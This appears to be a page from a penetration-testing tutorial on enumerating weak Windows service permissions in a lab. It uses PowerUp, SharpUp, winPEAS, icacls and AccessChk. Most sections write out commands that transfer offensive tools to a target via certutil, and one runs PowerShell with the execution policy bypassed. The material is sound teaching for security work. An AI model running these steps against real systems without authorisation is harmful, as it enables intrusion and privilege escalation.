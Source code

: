 ```yaml
---
legal-banner: true
---
```


### **Enumerating service permissions with PowerUp**

1.  If you don’t already have PowerUp, download it:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`  
    
    ![](../../../../img/Windows-Environment/25.png)
    
2.  Host the PowerUp.ps1 script using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/26.png)
    
3.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/PowerUp.ps1 PowerUp.ps1`  
    
    ![](../../../../img/Windows-Environment/27.png)
    
4.  To bypass the PowerShell execution policy and run PowerUp.ps1:  
    `powershell -ep bypass -c "& {.\PowerUp.ps1}"`  
    
    ![](../../../../img/Windows-Environment/28.png)
    

### **Enumerating service permissions with SharpUp**

[SharpUp](https://github.com/GhostPack/SharpUp) is a tool for identifying Windows service misconfigurations commonly used in privilege escalation.

1.  If you don’t already have SharpUp, download it:  
    `wget https://raw.githubusercontent.com/r3motecontrol/Ghostpack-CompiledBinaries/master/SharpUp.exe`  
    
    ![](../../../../img/Windows-Environment/29.png)
    
2.  Host the executable using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/30.png)
    
3.  Transfer it to the target machine with certutil:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/SharpUp.exe SharpUp.exe`  
    
    ![](../../../../img/Windows-Environment/31.png)
    
4.  Run all checks with the `audit` command. In this example, the tool identified the `filepermsvc` service as vulnerable:  
    `.\SharpUp.exe audit`  
    
    ![](../../../../img/Windows-Environment/32.png)
    

### **Enumerating service permissions with winPEAS**

1.  Since the target runs a 64-bit OS, host the 64-bit winPEAS binary with Python:  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/33.png)

    **Note:** You can confirm system architecture with:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to the target machine:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/winPEASx64.exe winPEASx64.exe`  
    
    ![](../../../../img/Windows-Environment/34.png)
    
3.  Run winPEAS to search for weak service permissions:  
    `.\winPEASx64.exe`  

    ![](../../../../img/Windows-Environment/35.png)

    **Note:** The “Services Information” section in winPEAS lists all services, their configurations, and potential security issues.
    

### **Enumerating weak service file permissions (icacls)**

1.  Review Microsoft’s [icacls documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) for details about permissions.  
    
    ![](../../../../img/Windows-Environment/36.png)
    
2.  Check folder permissions for the service:  
    `icacls "C:\Program Files\File Permissions Service"`  
    
    ![](../../../../img/Windows-Environment/37.png)

    **Note:** This shows that `BUILTIN\Users` have (RX) Read & Execute permissions.
    
3.  Check permissions of the service binary itself:  
    `icacls "C:\Program Files\File Permissions Service\filepermservice.exe"`  
    
    ![](../../../../img/Windows-Environment/38.png)

    **Note:** This shows that `Everyone` has (F) Full Control, allowing modification or deletion of the binary.
    

### **Enumerating weak service file permissions (AccessChk)**

1.  If you don’t have the Sysinternals Suite, download it from the official [Microsoft site](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).  

    ![](../../../../img/Windows-Environment/39.png)

    **Note:** Confirm architecture (32/64-bit) with:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host the binary with a Python HTTP server and transfer it:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/accesschk64.exe accesschk64.exe`  
    
    ![](../../../../img/Windows-Environment/40.png)

    **Note:** With `accesschk` now on the target, we can enumerate permissions.
    
3.  View permissions on the service binary:  
    `.\accesschk64.exe -wvu "C:\Program Files\File Permissions Service\filepermservice.exe" -accepteula`  
    
    ![](../../../../img/Windows-Environment/41.png)

    **Note:** This shows that `Everyone` has (RW) Read and Write permissions, granting the ability to modify or replace the service binary.